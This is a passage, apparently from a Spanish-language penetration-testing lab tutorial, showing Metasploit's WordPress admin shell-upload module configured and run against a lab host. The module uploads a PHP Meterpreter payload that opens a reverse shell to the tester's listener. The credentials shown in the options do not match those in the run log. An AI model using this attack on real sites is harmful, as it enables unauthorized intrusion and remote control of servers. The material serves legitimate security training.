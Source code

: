 ```r
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

Una vez que estemos satisfechos con la configuración, podemos escribir `exploit` y obtener un reverse shell. Desde aquí, podríamos comenzar a enumerar el host en busca de datos sensibles o rutas para escalación de privilegios verticales/horizontales y movimiento lateral.

```r
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```
